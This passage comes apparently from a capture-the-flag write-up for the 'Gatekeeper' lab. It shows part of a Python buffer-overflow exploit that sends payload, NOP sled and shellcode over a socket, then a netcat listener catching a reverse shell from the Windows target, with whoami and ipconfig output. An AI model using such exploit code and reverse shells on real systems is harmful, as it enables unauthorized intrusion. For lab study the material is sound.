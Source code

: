 ```py
buffer = payload + nop + shellcode

try:
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
		s.connect((ip, port))

		print('[+] Sending evil buffer...')
		s.send(buffer + b'\r\n') # \r means the Enter key, \n means new line character
		print('[+] Done!')
except:
	print('[-] Unable to send/connect to the target.')
```

**Setup a `nc` listener:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# nc -lnvp 443
listening on [any] 443 ...
```

**Run the exploit:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 exploit.py
[+] Sending evil buffer...
[+] Done!
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.8.27.249] from (UNKNOWN) [10.10.192.183] 49173
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>whoami && ipconfig
gatekeeper\natbat

Windows IP Configuration


Ethernet adapter Local Area Connection 3:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::68c6:44a8:9d3a:1bb9%17
   IPv4 Address. . . . . . . . . . . : 10.10.192.183
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1

Tunnel adapter isatap.eu-west-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : eu-west-1.compute.internal

C:\Users\natbat\Desktop>
```
